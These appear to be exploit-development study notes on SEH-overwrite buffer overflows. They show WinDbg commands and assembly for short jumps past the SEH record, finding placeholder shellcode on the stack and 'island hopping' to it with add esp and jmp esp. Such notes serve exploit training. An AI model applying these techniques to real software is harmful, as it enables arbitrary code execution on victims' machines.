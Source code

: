 ### Island-Hopping in Assembly
To assemble an instruction that will jump over the current SEH and redirect us into our fake shellcode located after the P/P/R address. This is known as a “short jump” in assembly.

The first opcode of a short jump is always 0xEB and the second opcode is the relative offset, which ranges from 0x00 to 0x7F for forward short jumps,and from 0x80 to 0xFF for backwards short jumps.

After single-stepping through the P/P/R instructions, we will use the `a` command to assemble the short jump and obtain its opcodes:
```
dds eip L4
a
jmp 0x018fffc5 # 0x018fffc5 being address where we want to jump in

u eip L1
dds eip L4
```

### Perform a search for the NOP instructions followed by the bytes contained in our shellcode variable right after taking our short jump
```
!teb
#we take the StackLimit and the StackBase

s -b 01b5e000 01b60000 90 90 90 90 43 43 43 43 43 43 43 43
s -b 01b5e000 01b60000 44 44 44 44 45 45 45 45 45 45 45 45

#here 01b5e000 and 01b60000 are respectively the StackLimit and the StackBase
```

#Our next step is to determine the offset from our current stack pointer to the beginning of our shellcode. This will allow us to use the limited space we currently have to assemble a set of instructions that will allow us to “island hop”, redirecting execution to our shellcode.

To determine this, we can simply use ? to subtract between the memory address of the start of our shellcode (0x01b5fa98) and the current value of the stack pointer.
```
? 0x01b5fa98 - @esp 

#here the offset is 1608 (00000648) 
```

In order to reach this part of the shellcode we have 3 possibility but **we should make sure the one used doesn't content bad characters or null bytes in the opcodes**
1. add esp
```
msf-nasm_shell
add esp , 0x648
```
2. use smaller jumps (of less than 0x7F ) until we reach the desired offset.

3. reference the SP register in our assembly instruction to do arithmetic operations on the lower 16 bits
```
msf-nasm_shell
add sp , 0x648
jmp esp
```